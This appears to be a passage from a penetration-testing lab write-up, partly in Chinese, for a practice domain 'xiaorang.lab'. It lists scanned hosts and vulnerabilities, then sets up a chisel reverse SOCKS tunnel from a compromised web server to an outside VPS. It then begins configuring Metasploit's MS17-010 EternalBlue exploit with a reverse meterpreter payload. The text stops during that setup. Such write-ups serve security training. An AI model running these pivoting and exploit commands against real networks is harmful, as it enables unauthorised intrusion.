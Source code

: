 ## Net 172.22.15.26/24

- 172.22.15.13
- - Windows Server 2016 Standard 14393
- - DC XR-DC01.xiaorang.lab
- 172.22.15.18
- - XR-CA.xiaorang.lab
- - IIS Windows Server
- - poc-yaml-active-directory-certsrv-detect
- 172.22.15.24
- - Windows Server 2008 R2 Enterprise 7601 Service Pack 1
- - WORKGROUP\XR-WIN08
- - MS17-010
- - HTTP - 172.22.15.24/www/sys/index.php
- 172.22.15.26
- - HTTP - title:XIAORANG.LAB
- 172.22.15.35
- - XIAORANG\XR-0687

## 入口点 建立代理枢纽

```shell title="vps"
root@jmt-projekt:~# ./chisel_1.9.1_linux_amd64 server -p 1337 --reverse &
[3] 104848
2024/07/26 14:54:16 server: Reverse tunnelling enabled
2024/07/26 14:54:16 server: Fingerprint YD3Q0ZtfOkuluprJwabcvK5nCT6F1qxLl5pFCh7OGoI=
2024/07/26 14:54:16 server: Listening on http://0.0.0.0:1337
```

```shell title="入口点 172.22.15.26"
(remote) www-data@ubuntu-web:/tmp$ ./chisel_1.9.1_linux_amd64 client 139.9.4.56:1337 R:0.0.0.0:10000:socks &
[1] 3364
2024/07/26 14:54:39 client: Connecting to ws://139.9.4.56:1337
2024/07/26 14:54:39 client: Connected (Latency 43.474586ms)
```

成功建立转发

```shell title="vps"
2024/07/26 14:54:39 server: session#1: tun: proxy#R:10000=>socks: Listening
```

## 172.22.15.24 MS17-010

直接使用 Metasploit 进行攻击

```shell
root@jmt-projekt:~# proxychains4 -q msfconsole -q
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 172.22.15.26
LHOST => 172.22.15.26
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 8888
LPORT => 8888
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 172.22.15.24
RHOST => 172.22.15.24
```
